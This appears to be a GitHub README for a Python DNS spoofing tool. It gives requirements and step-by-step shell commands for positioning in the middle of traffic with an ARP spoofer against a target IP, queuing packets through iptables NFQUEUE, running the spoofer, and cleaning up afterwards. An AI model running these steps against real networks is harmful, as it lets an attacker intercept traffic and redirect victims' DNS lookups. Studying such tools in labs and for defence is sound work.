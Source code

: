 # DNS Spoofer

## Requirements

* Python 2 or 3
* [NetFilterQueue](https://github.com/oremanj/python-netfilterqueue#installation)
* An iptables `NFQUEUE` (`FORWARD` chain if comes from another device, `OUTPUT` and `INPUT` chain when testing on hacking machine)
* Scapy

```shell
$ sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
```

or

```shell
$ sudo iptables -I OUTPUT -j NFQUEUE --queue-num 0
$ sudo iptables -I INPUT -j NFQUEUE --queue-num 0
```

## Usage

```shell
usage: dns_spoofer.py [-h] [-d DOMAIN] [-r IP]
```

### Example use

Go in the middle:

```shell
$ sudo sysctl -w net.ipv4.ip_forward=1
$ sudo python3 arp_spoofer.py -t 192.168.122.75 -s 192.168.122.1
```

Set up queue and intercept:

```shell
$ sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
$ sudo python3 dns_spoofer.py                      
```

View queue with

```shell
$ sudo cat /proc/net/netfilter/nfnetlink_queue
```

Afterwards, do not forget to disable net.ipv4.ip_forward and to remove the created iptables `NFQUEUE`:

```shell
$ sudo sysctl -w net.ipv4.ip_forward=0
$ sudo iptables --flush
```